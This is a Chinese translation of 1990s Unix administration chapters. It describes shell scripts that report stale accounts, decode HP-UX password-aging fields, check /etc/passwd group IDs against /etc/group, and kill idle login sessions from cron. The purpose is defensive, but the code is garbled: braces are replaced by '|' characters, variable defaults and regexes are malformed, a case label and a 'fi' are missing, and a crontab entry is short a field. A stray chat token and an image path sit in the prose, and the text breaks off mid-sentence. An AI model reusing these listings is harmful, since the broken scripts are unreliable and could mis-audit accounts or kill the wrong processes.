oldacct 脚本必须将 finger 提供的月份名称转换为月份数字。函数 monthnum 通过在月份名称与其数字之间建立关联数组来处理转换。给定名称字符串，它返回该数字。脚本还包含将月份数字转换回该月份名称的方法代码。尽管如此，这种转换并不需要，因此被禁用。

过期日期源自当前日期，因此系统会提供当前月份、日期和年份。四位数的年份与 finger 的用法相匹配。以 90 天作为年龄阈值需要从当前日期减去三个月来获取过期日期。脚本会检查当前月份是否在 一月 至 三月 之间。如果是，减去三个月会回绕到前一年，产生一个需要额外算术运算的负数。因此，脚本不是减去三个月，而是加上九个月（一月，即第 1 个月，变为十月，即第 10 个月，即早三个月），然后减少年份数字。当当前月份为 四月 或以后时，它只需减去三并保持年份不变。

尽管三个月被视为 90 天而不考虑实际经过的天数，日期数字在比较中仍会起到很小的作用。由于大多数月份有 30 或 31 天，日期并不太关键，除了二月，可能相差多达三天。因此，如果计算出的过期月份数字为二月且过期日期数字超过 28 日，我会强制将其设为 28 日。否则，我就保持原样。这对于这种粗略的工作来说已经足够接近了。如果你需要更高的精度，可以设置另一个数组来提供每个月份的正确总天数，并包含二月的闰日。

在程序开始搜索旧账户之前，它必须决定要查找哪些用户。awk 使用冒号作为字段分隔符遍历密码文件。如果记录的 UID 超过普通用户的阈值，它就会省略用户名。所有这些名称都收集到 USERS 变量中。设置好此变量后，脚本就可以对每个用户名调用一次 finger。

finger 可以在其参数与登录名或 passwd 文件的 GECOS 字段中进行匹配，后者详细说明了有关用户的更多信息。当你交互使用 finger 时，GECOS 字段很有信息量。你可以询问另一用户的名字或姓氏并获取其余信息，包括登录名。当你对某人知之甚少时，此功能可以帮助你发现更多信息。对于脚本的目的来说，当用户的登录名是其名字并且其他多个用户具有相同名字时，就会产生问题。finger 会列出所有具有该名字 的用户，而不仅仅是我想要的第一个用户。finger 的 -m 选项强制它仅匹配登录名。

如果 finger 在处理该用户的数据时遇到问题，脚本会将其错误消息发送到位桶。否则，第四行包含最后登录日期和时间。sed 提取该第四行；-n 选项抑制了 sed 的默认打印。


脚本的后续操作取决于第四行的单词数量。`finger` 的输出并不完全一致。当第四行包含超过五个单词时，该行包含脚本想要的信息。当单词少于五个时，`finger` 表明登录存在特殊情况。shell 的 `set` 命令解析单词，使得计数单词和分离变得简单。

`finger` 可以发现的一个特殊事实是账户是否曾经被使用过。如果用户从未登录过该账户，旧的 `acct` 脚本必须报告该账户名。程序的原始版本只是简单地输出每个用户的名字，后面跟着该用户是否超过了古老账户阈值。通过覆盖打印，脚本只显示那些古老账户。

计划再好也难免出错。当我在第一个测试系统上运行该版本时，我发现太多从未使用过的用户账户，而且这些账户往往会滚动列表。我确实想知道这些账户的情况。为了纠正滚动问题，我决定将未使用的账户与已使用的账户分开，并在常规报告末尾以列表形式报告未使用的账户。因此我注释掉了更简单的 echo 代码，并创建了一个 `NOLOGIN` 变量来保存从未使用过的用户名的连接列表。脚本的最后部分是打印该变量值的代码。

另一个问题出现在 `GECOS` 字段包含大量信息时。`finger` 分析 `GECOS` 字段以寻找某些特征。大多数信息出现在第二行，而主目录和默认 shell 显示在第三行。当包含家庭电话号码时，`finger` 将其放在第三行，并将主目录和默认 shell 信息移到第四行，愉快地破坏了我所有基于行的假设。

我无法避免这些基于行的假设，因为 `finger` 并没有对包含登录信息的行应用统一的标题。有时它说 `Last login`，其他时候它说 `On since`，而且如前所述，它也可能说 `Never logged in`。这些最常出现在第四行。由于我不想太频繁地运行 `finger`，我认为专注于该第四行并在第四行被破坏时纠正程序的假设会更容易。对于家庭电话号码，第四行的第一个单词是 `Directory:`，因此脚本专门测试该词。如果脚本找到该词，就会重新执行 `finger` 以提取第五行。`set` 命令解析提取的行，而 `while` 循环使用新提取的行重新执行。

另一个特殊情况出现在 `GECOS` 字段中没有电话号码时。发生这种情况时，相关数据包含在第三行，而不是第四行。 （账户创建的一致性可以是一件美妙的事情——请尝试统一设置你的 `GECOS` 字段。）

如果出现少于五个参数，用户从未登录过。`while` 循环对少于五个参数的测试已经考虑到了古老账户。`while` 循环之后进行的单独少于四的测试会继续处理下一个用户名。所有其他账户日期行都有五个或更多单词。

如果前两个单词是 On since，则用户仍在登录中。类似地，当用户已登录但处于空闲状态时，第五个单词是 Idle。`finger` 并非总是对空闲情况显示 On since。这些不是古老账户，因此脚本继续处理下一个用户。

当所有这些测试都通过时，当前行包含最后登录日期。`finger` 的第四行包含单词 Last login，后面跟着用户最后登录的日期，包括星期几、时间或年份，以及用户最后登录的 tty 或 pty 设备。第四、第五和第六个字段包含相关的日期信息。`OLDMONTH`、`OLDDAY` 和 `OLDYEAR` 变量保存这些日期值。如果最后登录在六个月内，`finger` 会在第六个字段显示时间；超过六个月的日期则显示年份。隔离这种情况最简单的方法是寻找四位数。如果 `OLDYEAR` 变量有四位数，它就不能是时间，因此账户必须是古老的。否则，脚本就没那么容易了。

如果 `finger` 报告的月份小于到期月份，这就是一个古老账户。如果 `finger` 的月份真的很旧怎么办？如果到期月份是一月，`finger` 的月份可能是十二月，并且不小于到期月份。因为到期月份是一月，所以当前月份必须是四月。十二月仍在六个月之内，因此不会被四位数年份测试捕获。考虑到十二月（12）是在四月之后，而这就是这种情况发生的当前月份。如果任一情况发生，这就是一个古老账户。最后，如果 `finger` 的月份与到期月份相同，脚本会将账户与日历日期进行比较。除非 `$OLDDAY` 早于该日历日期，否则账户不算古老。

当用户名循环结束时，所有古老账户都已打印出来，用户名和最后登录日期之间用制表符分隔。与之前的脚本一样，格式不一定漂亮，但另一个程序可以轻松解析它。如果你想要更漂亮的输出，请将整个 for 循环用括号括起来并将其通过管道传输到 awk 或其他东西。

脚本最后测试 `NOLOGIN` 字符串变量是否包含内容。如果有，该变量包含一组单词，每个单词命名一个从未登录的用户。`pr(1)` 将该列表格式化为一组列，如果列表以每行一个名称的形式提供。`tr(1)` 将空格翻译成换行符。`pr` 将行格式化为六列，并在需要时截断名称以适应。名称未排序，因此它们按 `/etc/passwd` 的顺序出现。如果你宁愿对名称排序，请在将结果通过管道传输到 `pr` 之前，将 `tr` 的输出通过管道传输到 `sort`。


# 追踪狡猾的密码老化报告

除非你是 UNIX 系统上唯一的<|message|>用户，否则务必为所有账户设置密码保护并为所有密码启用老化。密码老化方法因 UNIX 系统而异。例如，在 SVR4 上，老化信息以冒号分隔的数字集合形式保存在 /etc/shadow(4) 文件中。然而，HP-UX 将老化信息保存在 /etc/passwd(4) 文件中。老化值以 base-64 数字编码并与加密密码拼接，以逗号与密码分隔。这种方法的问题在于缺乏一种简单的方式供任何人审查设置。没有简单的方式审查老化设置，管理员随着时间的推移发现，宁愿将老化保持未设置，也不愿弄清楚正确的设置并实施它们。

chkaging 脚本（清单 2.4）识别 HP-UX /etc/passwd 文件的密码老化设置。该脚本还提供翻译功能。某人可以提供一个编码的老化值并获取老化数字是什么，或者提供老化数字并发现正确编码的老化值。有了这个脚本，管理员和经理可以审查并在系统上正确设置老化。（我们最终从 HP-UX 社区找到一个脚本，该脚本也设置了 /etc/passwd 文件。那个脚本中的许多功能本应包含在 chkaging 脚本的下一个版本中。）

### Listing 2.4 The chkaging script identifies the aging settings for the HP-UX /etc/passwd file.

```sh
#!/bin/sh
#
# chkaging
#
# Report current password aging settings from the /etc/passwd file.
# If -a is used, translates an aging value into a set of weeks numbers.
# If -d is used, translates a set of weeks numbers into an aging value.
#
# Each aging value is formed from a set of base-64 numbers representing:
#
# 1. the number of weeks maximum before a password change is forced
#    by the system,
# 2. the number of weeks minimum before a new password may be changed
#    by the user, and
# 3. the number of weeks elapsed since week 0, 1970, when the password
#    was last changed.
#
# The base-64 numbers are formed from the set of alphanumeric characters
# and two punctuation marks. The aging value follows the password,
# separated by a comma. If the comma isn't there, aging is deactivated
# for that account. The weeks elapsed string may be missing, which
# corresponds to 0 weeks elapsed. That should force the password to change
# with the next login. According to passwd(4), the .. (00) should always
# force a new password on the next login.
#
# Copyright 1994, Lawrence S Reznick
# HISTORY
#
# 94Apr19 LSR
# The base-64 digits are output in reverse place-value order. That is,
# if the digits should have been Hm (H in the 64s place and m in the
# 1s place), the password aging system will output it as mH. Corrected
# the weeknum() & code_val() functions to handle it that way.
#
# Also, the NOW_WEEKS value is off because a 365-day year is really 52
# weeks plus 1 day. expr doesn't work with floating point, so the simplest
# solution is to add 1 week for every 7 years since the epoch.
#
PW_FILE=/etc/passwd  # Point to passwd file
#
# NOW_WEEKS holds the number of weeks elapsed since 1970: aging epoch
#
NOW_WEEKS=`expr \`date '+%Y'\` - 1970`
NOW_WEEKS=`expr $NOW_WEEKS \* 52 + \`date '+%U'\` + \( $NOW_WEEKS / 7 \)`
#
# Given an encoded aging weeks value, return the numeric equivalent
#
DIGITS="./0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
```

在 shell 脚本中实现 base-64 翻译是一项有趣的练习。不幸的是，当我发现 HP-UX 以反向位值顺序存储数字时，它变得更有趣了。例如，十进制值 12 是十位上的 1 和个位上的 2。以反向位值顺序写出，同一个数字是 21，这违反了最小惊讶原则。对于那些对正确数值处理 base-64 数字感兴趣的人，我保留了原始代码，但注释掉了这些行。

老化值分为三部分。第一部分是用户在系统强制更改前可继续使用密码的最长周数。此最大值仅使用一个字符，因此密码必须在上次更改日期起 63 周内更改。你可以要求用户在最少几周内保持相同的密码。下一个字符存储更改前的最短时间。与最大值一样，最小值可以少至零周。这样的用户可以在更改后立即再次更改密码。最多可延迟 63 周系统才允许更改。所有剩余字符定义上次密码更改时的 base-64 周数。此周数是自 1970 年以来的周数，其中零为 1970 年的第一周。

NOW_WEEKS 保存程序运行时已过去的周数。乍一看，这是自 1970 年以来的年数乘以 52 再加上当前日期的周数。然而，这还不够好。365 天的年份除以 7 天的一周得到 52 周零 1 天。对于大多数快速粗略的估计，52 周足够了，但每七年，这种 Q&D 计算就会损失一周。随着 1970 年纪元过去超过 20 年，Q&D 计算损失超过三周。你可以通过找出已过去的七年周期数，然后为每个周期增加一周来修正公式。因此，NOW_WEEKS 预先计算年数，然后重用该数字来计算主要周数和分数修正。

weeknum 函数将 base-64 数字转换为其十进制等价物。weeknum 使用 DIGITS 变量保存 base-64 数字并将它们的位值与每个数字的下标编号关联。此函数是需要更改以适应反向位值顺序的函数之一。最初，for() 循环从左到右扫描 base-64 数字。该 for() 循环在代码中仍被注释以供参考，但我用 do...while() 循环替换它以从右到左扫描。尽管数字扫描顺序不同，移动 64 加权十进制值是相同的。


# Listing 2.4 (continued)

```
weeknum ()
{
    echo $1 |
    awk '
    #
    for (i = 1; i <= length; i++) |
        i = length;
        do |
            sum += 64;
            sum += index(digits, substr($0, i, 1)) - 1;
        | while (--i);
    }
    END |
        print sum;
    |
    ' digits=$DIGITS
}
# Given a comma-separated number list (max,min,elapsed),
# output aging code
#
code_val ()
{
    echo $1 |
    awk -f '
    $1 < 0 || $1 >= length(digits) {
        print "Max out of range! 0 <= Max < ", length(digits);
        exit;
    }
    $2 < 0 || $2 >= length(digits) {
        print "Min out of range! 0 <= Min < ", length(digits);
        exit;
    }
    |
```

`code_val` 函数也需要修改以处理反向位值问题。值以逗号分隔的列表形式传递给此函数。因为 `/etc/passwd` 要求最大值和最小值是单字符值，尽管用户可以传递任意数量的测试值，awk 程序会对其进行范围检查。编码值显示为一组字符，例如 00AH，其中 o 是 MAX，0 是 MIN，AH 是已过去的周数。产生的代码可以简单地接收这些字符的连接。因为 MAX 和 MIN 是单字符，awk 的 `substr()` 函数就足够了。

已过去的时间值需要进行 base-64 分解。awk 没有布尔 AND 或位移运算符，因此需要使用除法和取余运算符。这些操作不会因反向位值顺序而改变，但连接顺序会改变。原始版本展示了在数学上正确的数字构造，将 base-64 数字附加到最新数字的值上，作为注释保留供感兴趣的读者参考。要获得反向位值顺序，请将最新数字附加到已构造的 base-64 数字上。最终的 base-64 数字，无论位值顺序如何，都与 MAX 和 MIN 代码连接，并在 `code_val` 函数中省略。

`aging_val` 将编码的 aging 值转换为其十进制形式。`aging_val` 使用 `expr()` 的冒号运算符提取 MAX、MIN 和 ELAPSED 子字符串代码，并使用 `weeknum` 函数显示其十进制等价物。一个关键问题是 HP-UX 的 `/etc/passwd` 规定缺少的 elapsed 代码等同于 0 值。为了使代码规范，`aging_val` 将 `..0` 值附加到代码上。最后，在显示上次更改以来经过的时间时，我选择显示密码更改已有多久。这个数字是动态的。随着时间的推移，每周运行 `chkaging` 程序时，同一账户会显示不同的值。

`show_aging` 是 `chkaging` 程序的默认操作函数。它从 `/etc/passwd` 文件中提取用户名及其加密的密码字段。`chkaging` 假定管理账户的登录将被显式禁用，并且会显示 `*` 而不是密码。它忽略此类账户。否则，每个名称都将与其 aging 信息一起回显。shell 的 `set` 命令解析机制将 aging 信息与加密密码分开。4 位加密字符列表中没有逗号。

最初，脚本简单地在每个登录名旁边输出 aging 不活跃的警告。很快，我遇到了一台几乎每个账户都没有 aging 的系统。为了简化识别这些账户以便修复，我决定将名称累积到 `NOAGING` 变量中。在显示活动用户列表后，我将 `NOAGING` 名称一次性以列格式显示。一旦 `NOAGING` 变量的处理和打印就位，我就注释掉了原来的两行。

主处理例程决定是调用 `show_aging` 来检查 `/etc/passwd` 文件，还是分析加密的 aging 值（`-a` 选项），或分析十进制周代码值（`-d` 选项）。

# Listing 2.4 (continued)

```
code = substr(digits, $1 + 1, 1);
code = code substr(digits, $2 + 1, 1);

elapsed = $3;
do
  quot = int(elapsed / 64);
  remn = elapsed % 64;
  base64 = substr(digits, remn + 1, 1) base64;
  base64 = base64 substr(digits, remn + 1, 1);
  elapsed = quot; while (elapsed >= 64);
  base64 = substr(digits, quot + 1, 1) base64;
  base64 = base64 substr(digits, quot + 1, 1);
  code = code base64;
  print code;
}

' digits=$DIGITS
|
#
# Given a full aging value (no comma), display its numeric values
#
aging_val ()
{
  code = $1
  if [ `expr length $code` -eq 2 ]
  then
    code=$[code]..
  else if [ `expr length $code` -lt 3 ]
  then
    echo Invalid aging code "$code"
    return
  fi
  fi

  MAX=`expr $code : '\(..)'`      # Grab max weeks
  MIN=`expr $code : ':\(..)'`    # Grab min weeks
  ELAPSED=`expr $code : ':\..\(*' ` # Grab weeks since epoch

echo "aging set to `weeknum $MAX` weeks max, \c"
echo "`weeknum $MIN` weeks min, \c"
echo "last changed `expr $NOW_WEEKS - \`weeknum $ELAPSED\`` weeks ago."
}
```


# 摘要

每个 UNIX 系统管理员都必须设置并跟踪许多简单的安全措施。简单的脚本可以自动化这些任务。消除 root 访问需求允许非管理员用户监控他们系统部分的状况。分发对简单安全操作的监控，让管理员能够关注复杂的工作。

## Listing 2.4 (continued)

```
#
# Collect the 1st 2 fields of the password file & parse the aging info
#
show_aging ()
{
INFO=`
cut -f1-2 -d: $PW_FILE |  # Extract name & passwd fields
egrep -v '\*:'          # Ignore disabled accounts

for n in $INFO
do
#
echo "`echo $n | cut -d: -f1`\t`c"

oldFS="$IFS"
IFS=":"
# Use field sep to parse aging
set $n
# $2 has the aging field value
IFS="$oldFS"

if [ -z "$2" ]
then
#
echo aging inactive!
NOAGING="$NOAGING `echo $n | cut -d: -f1`"
else
echo "`echo $n | cut -d: -f1`\t`c"
aging_val $2
fi
done

if [ -n "$NOAGING" ]
then
echo "\nAging inactive ($PWFILE order):"
echo $NOAGING | tr ' ' '\012' | pr -t -6
fi
}
```

## Listing 2.4 (continued)

```
#
# Main processing
#
if [ $# -eq 0 ]                # Default execution
then
    show_aging                # Show passwd file's aging settings
    exit 0

case $1 in
-a)
    shift                     # Turn aging value into weeks number
                              # Skip to the aging value
    for v
    do
        echo $v = `aging_val $v`
    done
    ;;
d)
    shift                     # Turn weeks numbers into aging value
                              # Skip to the week number sets
    for v
    do
        echo $v = `code_val $v`
    done
    ;;
*)
    echo "Usage:\t`basename $0` [-a aging_codes] [-d week_nums]\n"
    echo "No arg:\tells aging settings for "$PW_FILE" file."
    echo "-a arg:\tturns aging codes into week numbers."
    echo "-d arg:\tturns max,min,elapsed num sets into aging codes."
    ;;
esac
exit 0
```

## Coordinating Password and Group Files

Larry Reznick

在审查客户系统中的一些其他问题时，我发现 /etc/passwd 中的某些组 ID 条目在 /etc/group 文件中不存在。这组系统上尚未运行 NIS，因此我不禁想知道还有多少其他系统存在这种错误？更不用说，在运行 NIS 的情况下，是否也存在相同类型的差异？

Listing 3.1 显示了一个脚本，用于查找当前系统上是否存在此类差异。在脚本开头，变量集中了 passwd 和 group 文件，因为数据可能来自真实文件或 NIS 的映射。使用变量来控制收集数据的文件名，允许脚本的其他部分以统一的位置收集数据，无论数据来自何处。创建这些文件后不久，脚本为常见信号设置了 trap 以删除这些文件。

接下来，脚本运行 ypwhich 以确定 NIS 是否正在运行。如果没有，ypwhich 会以 shell 的 if 测试可检测到的错误代码退出。在 NIS 运行的情况下，脚本假定 NIS 持有密码和组映射，并将它们定向到中央文件。否则，它从通常的位置获取它们并将它们放入中央文件。我仅对真实文件使用 cat 而不是 cp，完全是为了与 ypcat 保持一致。

脚本的核心是 for 循环。for 的 grp 变量设置为中央密码文件中的排序组 ID。它们被排序以确保列表只显示一次 gid 条目，并且它还有一个很好的副作用，即使输出按组顺序出现。

组 ID 可能是任意大小的数字。少数位数的数字不应该意外匹配多位数的数字。例如，我不想在 17 中找到 gid 7 并认为 gid 7 存在而实际上不存在。为了确保 gid 匹配是精确的，我用在组文件中找到的相同冒号分隔符将 $grp 变量中的每个数字包围起来。这会强制 :7: 仅匹配它本身，而不是 :17:。生成的格式化数字存储在 grpfmt 变量中。

## Listing 3.1 The badgrp script finds discrepancies between group ID entries in /etc/passwd and /etc/group

```
#!/bin/sh
#
# badgrp
#
# Find /etc/passwd entries missing group entries in /etc/group
#
# Copyright 1994, Lawrence S Reznick -- 94Oct19

PWFILE=/tmp/pw.$$ 
GRPFILE=/tmp/gp.$$ 

trap "rm -f $PWFILE $GRPFILE" 1 2 3 15

#
# If NIS is running, use its maps
#

if ypwhich >/dev/null 2>&1
then
    ypcat passwd >$PWFILE
    ypcat group >$GRPFILE
else
    cat /etc/passwd >$PWFILE
    cat /etc/group >$GRPFILE
fi
```


match 变量接收 egrep 找到的与此格式化组号匹配的行。如果组文件中没有这样的行，match 变量接收一个空字符串。测试 -n 在 match 包含组 ID 的行时为真。如果此测试为真，OR (||) 运算符不会执行其命令行的第二部分，即 echo 命令。当 match 为空字符串时测试为假，这意味着格式化的 gid 不在组文件中。如果 OR 的第一部分为假，第二部分必须执行以查看其是否为真。这会回显错误消息，标识不仅缺少哪个 gid，还会查找属于该组的用户。这样的用户文件在长列表（ls -l）中会显示 gid 而不是他们的组名。

安装后，我使用 for 循环通过 rsh 运行此脚本，以连接到我怀疑可能有问题的每个系统。例如，在 csh 中我可以运行以下内容。

```
foreach sys (system1,2,3,4,5,1)
echo === badgrp report for $sys
rsh $sys badgrp
end
```

除非有非常充分的相反理由，否则每个用户都应属于组文件中标识的组。此脚本为我捕获了几个错误的组 ID。

## Listing 3.1 (continued)

```
#
# Extract a unique list of active accounts' gids
#
for grp in `cut -d: -f4 $PWFILE | sort -nu`
do
  grpfmt=`echo :$grp:`  # Avoid partial matches
  match=`egrep $grpfmt $GRPFILE`
  test -n "$match" ||
    echo Group $grp not in group list, affecting users: \
      `egrep $grpfmt $PWFILE | cut -d: -f1`
done
rm -f $PWFILE $GRPFILE
```

## Timing Out Idle Users

Larry Reznick

所有用户在长时间离开工作站或在一天结束时都应注销。用户已登录但不在场的工作站是安全漏洞的邀请。系统管理员没有时间监视每个人在做什么，并在用户忘记注销时指责他们。此外，经过一定量的指责后，系统管理员会失去用户的信任。

系统知道用户终端有多活跃，因为系统必须跟上所有这些活动。你可以让系统监控用户的活动，如果其中一个终端空闲超过特定时间，就强制用户注销。SCO UNIX 有一个专门用于此的程序，名为 ... SVR4 没有这样的程序，但一个简单的 shell 脚本可以完成相同的工作。

/etc/rc2 init level 2 for multiuser mode。

/etc/rc3 init level 3 for networked multiuser mode。

这些 rc 脚本引用以下目录之一的内容。

- /etc/rc.d Contains common run command directories.
- /etc/rc0.d Contains init level 0 run commands.
- /etc/rc1.d Contains init level 1 run commands.
- /etc/rc2.d Contains init level 2 run commands.
- /etc/rc3.d Contains init level 3 run commands.

## Table 4.1 The run commands from a sample rc2.d directory.

| Command | Description |
|---|---|
| S00SYSINIT | Initialize system operation |
| S01MOUNTFSYS | Mount the standard file systems |
| S03RECOVERY | Recover from any problems |
| S04CLEAN | Clean the file systems |
| S05RMTMPFILES | Clean the temporary files |
| S15HWDNLOAD | Hardware download |
| S16KERNINIT | Initialize the kernel |
| S20systemup | System setup |
| S21perf | Performance monitoring |
| S70uucp | UUCP startup |
| S75cron | cron startup |
| S80lp | Line printer spooler startup |
| S86mmdf | SCO's mmdf mailer startup |
| S87USRDAEMON | User-defined daemons startup |
| S88USRDEFINE | User-defined programs |

## Table 4.2 The run commands from a sample rc0.d directory.

| Command | Description |
|---|---|
| K00ANNOUNCE | Announce that the system is going down |
| K70uucp | Kill UUCP operations |
| K75cron | Kill cron |
| K80lp | Kill the line printer spooler |
| K86mmdf | Kill SCO's mmdf mailer |

## Listing 4.1 The killidle script can be used in place of SCO's idleout program on other versions of UNIX.

```
# killidle
#
# Kill any user login idle for too long

IDLEOUT=$1:20:

if [ $IDLEOUT ]
then
  IDLEOUT=20
fi

who -u |
awk '{
  name = $1;
  terminal = $2;
  idle = $5;
  pid = $7;
  if (idle != ".*") {
    split(idle, idletime, ":");
    if (idletime[2] >= IDLEOUT) {
      print "Timeout Warning: ", name, "on", terminal, "idle for", idle, "minutes (killed pid:", pid ")";
      system("kill -9 " pid);
    }
  }
}'
:" IDLEOUT=$IDLEOUT
```


以启动级别命名的目录代表了 UNIX SVR4 通常处理运行命令的方式。这些目录中的文件名以 S 或 K 开头，用来标识启动或终止进程的脚本。S 或 K 后面跟着的两位序列号标识在 S 或 K 组中哪个文件必须先运行。文件名的其余部分通常标识脚本的作用。例如，表 4.1 显示了示例 rc2.d 目录的内容，表 4.2 显示了示例 rc0.d 目录的内容。

另一种处理运行命令的方法使用 rc.d 目录。rc.d 目录包含以 0 到 9 的单个数字命名的子目录，表示在这些目录中找到的所有脚本的执行顺序。将脚本放入该目录中即可使其在系统启动或关闭期间执行。

确定你的系统使用哪种方法，并修改 /etc/rc.d/8/userdef 或 /etc/rc2.d/S88USERDEFINE 以使用你想要允许的分钟数启动 idleout。

## killidle 脚本

如果你没有 SCO UNIX，仍然可以用 shell 脚本来终止空闲的 tty 进程。该脚本结合了 who(1) 和 awk(1)。who 命令识别正在使用的 ttys 及其空闲时间。awk 脚本分析 who 的输出，判断哪些 ttys 过于陈旧，并将其结束。清单 4.1 显示了 killidle 脚本。

第一行的冒号强制 Bourne shell 执行该脚本。第一行代码，

```
IDLEOUT=$1:-20
```

将 IDLEOUT 变量设置为 killidle 的第一个命令行参数的值或 20。不是使用 if 测试来查看是否存在 $1 参数，我使用 shell 自身的变量替换机制。（有关此机制的更多信息，请参阅侧边栏“Shell 变量替换”。）此语法表示如果 $1 有值，则使用它。如果没有 $1 或其值为 0，则使用 20。无论选择哪一个，都将其结果赋给变量 IDLEOUT。

下一步避免用户给出负时间带来的麻烦。如果发现负时间，我选择将 IDLEOUT 设置为默认的 20 分钟。另一种方法，你可以使用 expr 来改变值的符号。

IDLEOUT 有效后，脚本使用 who 命令获取用户列表。-u 选项将输出限制为当前登录的人员。它还显示每个登录的空闲时间。代码将输出通过管道传递给 awk 程序以处理该空闲时间。

awk 脚本不包含模式，只包含动作。为了保持简单，它提取分析和输出所需的列值：用户名、终端 ID、空闲时间以及登录的进程 ID（PID）。

如果用户在最后一分钟内在 tty 上按过键，则该 tty 的空闲列显示一个句点。脚本的第一个 if 测试排除了该条件。给定某个空闲时间，who 以小时:分钟的格式显示它。小时可能设置为 0。此脚本只需要分钟。

## Shell 变量替换

你可以在不使用 shell 的 if 命令或 test(1) 命令的情况下以多种方式测试和更改 shell 变量。我只在此处展示 Bourne shell 的方法，因为它是用于编程最可移植的 shell。然而，csh 和 ksh 的替换能力比 sh 更丰富。如果你使用其他两种 shell 编程，花时间研究它们的替换功能。它们是值得的。$n 将变量名用大括号括起来，将 $ 置于大括号之外时，引用变量替换操作。

${var} 使用此格式在另一个值中嵌入变量的值，例如前缀或后缀。如果其他值不会让 shell 对变量名产生混淆，则不需要大括号。例如，给定

```
things=more
want=${things}stuff
```

变量 $want 得到值 morestuff。如果没有大括号，shell 可能认为变量名是 $thingsstuff。然而，在目录设置中

```
newdir=$SMANDIR/new
```

不需要大括号，因为斜杠是足够的分隔符。

${var:-value} 如果变量存在于环境中并且有值，则返回其值。否则，使用 :- 字符之后命名的值。这是替换的最简单形式，仅在变量尚无值时才返回命名值。

${var:=value} 如果变量存在于环境中并且有值，则返回其值。否则，将 := 字符之后命名的值赋给变量并返回新值。


隔离分钟数的一个简单方法是将冒号视为字段分隔符，并将空闲时间拆分为数组。awk的split函数正是完成这项工作。split的第一个参数是要拆分的字符串。第二个参数是存放拆分结果的数组。第三个参数是字段分隔符。如果数组尚不存在，split会为第二个参数创建空间。awk的下标从1开始，因此idletime[1]保存小时数，idletime[2]保存分钟数。如果空闲分钟数大于IDLEOUT变量中指定的数值，就该终止该进程了。

假设对被杀进程发出警告消息会有所帮助，一条print语句会标识哪个用户在哪台终端上被注销、终端空闲了多久以及用于调试脚本的PID。该输出不仅有助于调试，还允许你根据输出构建日志文件，以识别那些往往让终端空闲足够久、从而可能造成安全漏洞的用户。

在识别出哪个pid空闲过久后，awk脚本使用其system函数向该pid发送终止信号。（关于终止信号的完整描述，请参见侧边栏“Kill Signals”和表4.3。）信号9是应用程序无法忽略、也无法截获以使其行为发生改变的终止信号。唯一能承受信号9的进程是陷入内核的进程。陷入内核的进程通常被称为僵尸进程，因为它们在被杀死后仍然存续。

发送信号9是一种极端措施。其主要优点是它无法被截获，也无法被忽略。当进程收到该信号时，无论它在做什么，都会停止。这意味着它本应执行的任何清理操作都不会执行。你可能会觉得发送信号15更好。进程可以截获信号15并触发其清理操作。另一个不错的信号是发送1，



即挂断信号。终端会认为连接已不存在，并应自行终止。不过这些是较弱的信号，进程可以选择忽略它们。而信号9无论如何都能送达，除了那些讨厌的僵尸进程。脚本末尾有一个看起来奇怪的语法

```
IDLEOUT=$IDLEOUT
```

注意这出现在awk命令行中，位于脚本结束之后。awk并不直接使用shell环境变量。要将shell变量或任何其他值传入awk变量，需要在awk命令行上进行赋值。我选择使用与shell变量相同的名称，以保持引用简单。

## 表4.3 UNIX终止信号的基本集合

| 信号名称 | 信号编号 | 动作 |
|---|---|---|
| HUP | 1 | 挂断 |
| INT | 2 | 中断 |
| QUIT | 3 | 退出（转储核心文件） |
| ILL | 4 | 非法指令（转储核心文件） |
| TRAP | 5 | 断点陷阱（转储核心文件） |
| IOT | 6 | I/O陷阱（转储核心文件） |
| EMT | 7 | 模拟器陷阱（转储核心文件） |
| FPE | 8 | 浮点异常（转储核心文件） |
| KILL | 9 | 以极端方式强制终止 |
| BUS | 10 | 总线错误（转储核心文件） |
| SEGV | 11 | 段违规（转储核心文件） |
| SYS | 12 | 错误的系统调用参数（转储核心文件） |
| PIPE | 13 | 写入不存在的管道 |
| ALRM | 14 | 闹钟超时 |
| TERM | 15 | 终止 |
| USR1 | 16 | 用户自定义信号 |
| USR2 | 17 | 用户自定义信号 |
| CHLD | 18 | 子进程状态（又称CLD） |

几个值得改进的地方包括：

- 处理wtmp空闲时间列中表示超过24小时空闲时间的关键字old；
- 处理完整的小时:分钟格式，以应对所请求的大分钟数（如120），或应对“小时:分钟”的请求格式（如1:30）；以及
- 依据一张标识某些用户具有不同空闲时间限值的表来工作，从而允许为某些特殊用户微调空闲时间。

## 运行killidle

你可以随时手动运行killidle。只需输入

```
killidle
```

即可使用默认的20分钟空闲时间；或者输入

```
killidle minutes
```

其中minutes是允许空闲分钟数的任意正数。

| 表4.3（续） |
|---|---|---|
| PWR | 19 | 电源故障或重启 |
| WINCH | 20 | 窗口大小改变 |
| URG | 21 | 紧急套接字状态 |
| IO | 22 | 套接字I/O（又称POLL） |
| STOP | 23 | 由非tty进程停止（参见CONT） |
| TSTP | 24 | 由tty进程停止（参见CONT） |
| CONT | 25 | 继续一个已停止的进程 |
| TTIN | 26 | 等待后台tty输入（参见CONT） |
| TTOU | 27 | 等待后台tty输出（参见CONT） |
| VTALRM | 28 | 虚拟闹钟超时 |
| PROF | 29 | 剖析超时 |
| XCPU | 30 | 超出CPU时间限制（转储核心文件） |
| XFSZ | 31 | 超出文件大小限制（转储核心文件） |


该脚本会查看 `who` 输出并终止所有空闲时间过长的登录会话。不过，如果你不是 root 用户，你只能终止自己的进程。输出消息会告诉你还有谁空闲时间过长，但除非你是 root 用户，否则你对此无能为力。

当然，手动运行 killidle 有点愚蠢。你必须记得定期运行它，而如果忘记运行，它就无法很好地履行安全监控的职责。如果你从 root 的 crontab 中运行它，就可以让它全天候运行。作为 root 的 cron 作业，它拥有 root 的权限，因此可以不受限制地终止其他登录进程。最后，由于所有 cron 命令输出都会被自动捕获并邮寄给正在执行 crontab 的用户，root 会收到一封包含每次 killidle 运行所有超时警告的邮件。

要将 killidle 放入 root 的 crontab，最简单的方法是使用下面这一行：

```
* * * * * /usr/local/bin/killidle
```

假设 `/usr/local/bin` 是存放 killidle 脚本的目录。这五个星号告诉 cron 在它运行的每天、每一分钟都运行一次 killidle。这可能有点极端，但能够完成任务。为了减少脚本对系统资源的影响，可以每小时只运行几次。

例如，crontab 行

```
0,15,30,45 * * * /usr/local/bin/killidle
```

